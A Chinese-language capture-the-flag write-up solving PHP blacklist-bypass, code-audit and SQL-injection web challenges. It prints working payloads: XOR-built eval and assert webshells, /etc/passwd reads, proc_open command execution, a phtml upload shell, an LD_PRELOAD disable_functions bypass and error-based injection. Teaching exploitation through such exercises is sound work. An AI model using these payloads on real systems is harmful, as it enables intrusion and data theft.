


PHP+1.0
首先需要不满足函数is_file但满足file_exists
is_file函数是判断文件存不存在，而file_exists函数则是判断文件或者目录存不存在
所以，输入一个存在目录，is_file判断不是文件返回false，而file_exists则判断目录是存在返回true
接着就是绕过黑名单的限制执行命令：
1 | foreach (get_defined_functions()['internal'] as $blacklisted) { |
get_defined_functions()[‘internal’]是php的内置函数方法，其中过滤了最关键的下划线_，phpinfo()等
想到SUCTF的EasyPHP那道题，直接使用异或构造_GET实现多参数执行函数的方式
payload：
1 | ?input=${%a0%b8%ba%ab^%ff%ff%ff%ff}[a]();&thisfile=/var&a=phpinfo |
成功执行phpinfo
然后查看disable_functions，发现禁用了scandir，system，exec，shell_exec，file_get_contents等函数
读取文件函数还有show_source没被禁用，尝试读取/etc/passwd
payload：
1 | ?input=${%a0%b8%ba%ab^%ff%ff%ff%ff}[a]('/etc/passwd');&thisfile=/var&a=show_source |

但是读取/flag发现失败了，发现/flag是不可读的文件，所以只能想办法构造getshell
由于eval特性是执行一次代码，我们构造_GET和_POST就必须要执行一次，所以就必须要再嵌套进一个eval
payload:
1 | ?input=$b=${%a0%af%b0%ac%ab^%ff%ff%ff%ff%ff}[a];eval($b);&thisfile=/var |
蚁剑连接，发现根目录下面有个readFlag
终端执行即可获得flag
另外，虽然过滤了scandir，可以使用glob
1 | ?input=$b=${%a0%b8%ba%ab^%ff%ff%ff%ff}[a];eval($b);&thisfile=/var&a=print_r(glob(%27/*%27)); |

https://ctftime.org/writeup/16595
网上另外的题解payload：
1 | /?input=$descr=array(0=>array('p'.'ipe','r'),1=>array('p'.'ipe','w'),2=>array('p'.'ipe','w'));$pxpes=array();$process=eval('return%20proc'.$thisfille[8].'open("/readFlag",$descr,$pxpes);');eval('echo(fge'.'ts($pxpes[1]));');&thisfile=/lib/x86_64-linux-gnu |
1 | Equivalent to: |
1 | $proc=proc_open('/readFlag',[['pipe','r'],['pipe','w'],['pipe','w']],$pipes);var_dump(stream_get_contents($pipes[1])); |
PHP+1.5
相较于上一关多了对输入参数$input的一层过滤：
1 | $blacklist = "exit|die|eval|\[|\]|\\\|\*|`|-|\+|~|\{|\}|\"|\'"; |
如果用上一关的payload，这关最为致命的就是过滤了eval，‘’，“”，{}，[]
花括号的过滤将直接导致我们无法直接访问数组的元素，至于引号的过滤，导致我们不能直接使用字符串
这关就需要利用到PHP的一个经典特性：“Use of undefined constant”，会将代码中没有引号的字符都自动作为字符串，7.2开始提出要被废弃，不过目前还存在着。 Ascii码大于 0x7F 的字符都会被当作字符串
如上图所示，虽然phpinfo这些字母没有添加引号，但是PHP会自动将这些字符当作字符串，那我们试着传入eval，看看能不能执行
1 | ?input=$a=p.h.p.i.n.f.o;$a();&thisfile=/var |
成功执行，那么其他函数呢
1 | ?input=$a=s.h.o.w.(%a0^%ff).s.o.u.r.c.e;$b=(%d0^%ff).e.t.c.(%d0^%ff).p.a.s.s.w.d;$a($b);&thisfile=/var |
这样，我们就可以任意构造函数执行了，那么要getshell，剩下的就是构造出参数$_GET[]了
首先构造出$_GET，虽然{}被过滤了，但是我们还是可以通过$b=”_GET”;$$b;的形式来构造
最后就是访问数组元素了，[]{}的过滤导致我们不能直接访问，但是，我们可以通过操作数组的函数，例如current，end，next来访问，前面我们利用PHP特性任意构造函数了，所以这些函数我们都可以随意使用
最后getshell的payload：
1 | ?input=$b=%a0%af%b0%ac%ab^%ff%ff%ff%ff%ff;$g=$$b;$a=e.n.d;$h=$a($g);$c=a.s.s.e.r.t;$c($h);&thisfile=/var |
这里执行命令的函数换成了assert，因为eval的话会报错，换成了assert的一句话，我们只能使用老版本的菜刀进行连接
根目录下文件一样，同样终端执行/readFlag
网上另外的题解：https://furutsuki.hatenablog.com/entry/2019/09/23/225011
外国佬的思路同样是利用proc_open函数来执行命令，将执行的结果写入到/tmp/x中，再读取，payload如下：
1 | proc_open("/readFlag>/tmp/hhx",array(),$z); |
然后通过show_source读取：
1 | ?input=$a=s.h.o.w.(%a0^%ff).s.o.u.r.c.e;$b=(%d0^%ff).t.m.p.(%d0^%ff).h.h.x;$a($b);&thisfile=/var |
PHP+2.5
第三关又多了一层过滤：
1 | if(strlen($input)>100){ #That is random no. I took ;) |
限制了输入的长度不能超过100，完全不影响之前的payload
第二关的payload扔进去就行
Copy-Cat
代码审计题
登陆界面，首先来到login.php
看样子是要注入，参数username和password经过check函数的过滤，check函数在functions.php中
参数username和password经过mysql_real_escape_string的过滤，然后经过了长度的限制，如果长度大于11，则截取前11位，那么我们就可以利用截取来使转义的\逃逸
payload：
1 | username=1234567890\&password= or 1# |
登陆后，来到admin.php
跟踪is_login和is_admin函数
通过login.php，我们已经通过注入使得$_SESSION['logged'] == 1
那么接下来就设法让$_SESSION['admin'] == True
来到remote_admin.php

要使得$_SESSION['admin'] == True，就需要满足$_SERVER['REMOTE_ADDR']=="127.0.0.1"，就需要执行函数admin_$random()，但是$random为随机数，我们自然不知道
1 | $remote_admin = create_function("",'if(isset($_SERVER["HTTP_I_AM_ADMIN"])){$_SERVER["REMOTE_ADDR"] = $_SERVER["HTTP_I_AM_ADMIN"];}'); |
目光来到匿名函数：http://www.laruence.com/2010/06/20/1602.html
创建的匿名函数，通过%00lambda_x来调用，x为产生的随机数
payload：
1 | GET /cat/remote_admin.php?random=%00lambda_2 HTTP/1.1 |
再次来到admin.php，就能看到上传页面
upload.php：
上传最后会告诉我们路径，现在就是跟踪ExtractZipFile和CheckDir这两个函数，看看对上传的文件做了什么过滤
审计后发现，上传后首先调用了PHP自用类ZipArchive对上传的压缩包进行解压，然后对压缩路径下的文件名后缀做了检查，过滤了php，pl，py，asp等后缀文件，但是phtml后缀并没有被过滤
所以，我们将一个phtml的文件马压缩后上传，得到上传路径后便可以进行访问
disable_functions过滤的函数：

没用过滤scandir，show_source，proc_open
先看看根目录下的文件：
同样是需要通过执行/readFlag来读取flag
用前几关的proc_open函数，payload：
1 | /1.phtml?_=$proc=proc_open(%27/readFlag%27,[[%27pipe%27,%27r%27],[%27pipe%27,%27w%27],[%27pipe%27,%27w%27]],$pipes);var_dump(stream_get_contents($pipes[1])); |
当然，也有其他方法来bypass disable_functions，这里虽然过滤了mail，error_log
但是mb_send_mail函数未被过滤
编写evil.c：
1 |
|
编译：
1 | gcc -shared -fPIC evil.c -o evil.so |
编译后将evil.so文件压缩上传，然后在马中执行payload：
1 | /1.phtml?_=putenv("LD_PRELOAD=/var/www/html/cat/uploads/bc22993ec80ada190c0524affc17a946/evil.so");putenv(%27NYAN=/readFlag%20>%20/tmp/somnus%27);mb_send_mail(%27%27,%27%27,%27%27); |
最后读取/tmp/somnus即可
GoSQLv2
需要我们以执行sql查询后的用户名字段值为admin，把绝大多数的关键字都过滤了，可谓是过滤的非常干净
但是，我们可以看到，虽然过滤了空格，但是制表符Tab：%09是没有被过滤的
在MySQL中，'a' 'dmi' 'n' = 'admin'利用水平和垂直制表符也可用作空白字符

payload：
1 | ?name=a'%09'dmi'%09'n |
跳转到did_you_try_last_year_link.php
然后是SSRF页面，需要注出数据库用户名user()来写shell
我们可以注意到当sql语句执行错误时，会返回信息：Having a query problem
那么我们就可以报错信息进行报错注入，并且extractvalue没用被过滤，不过过滤了and，用-来代替即可
concat也被过滤，用elt来代替
可以发现，当第一个参数值为1时，会将@作为结果输入，而当elt拼接上extractvalue时，有查询结果时会报错，没有查询结果时则不会报错

所以，报错注入的payload如下：
1 | ?name='-extractvalue(1,elt(0,'@'))--%09 => 不报错 => You are not admin |
接下来思考注入的判断语句，这里=，>，like都被过滤了，所以我们不能构造判断等式，只能构造单一的表达式
这里首先注出用户名的长度
再利用用户名的长度和我们已知的用户名后缀@localhost，注出用户名，exp如下：
1 | import requests |
注出用户名长度后注出用户名的思路是：我们目前已知用户名末尾@localhost，那么将上一步注出的用户名长度减去末尾@localhost的长度，就等于我们接下来要注出用户名的长度l。然后从@localhost反向逐位注入，每当一位正确时，通过replace函数将j+user，即这一位和末尾已知的用户名替换为空，那么长度便为相对于原来l减1，那么elt函数最后输出字符，结合extractvalue就会报错，即返回Having a query problem
最后的执行结果：
用户名：iamspyd3r@localhost
得到用户名后面需要写shell，等有docker后再复现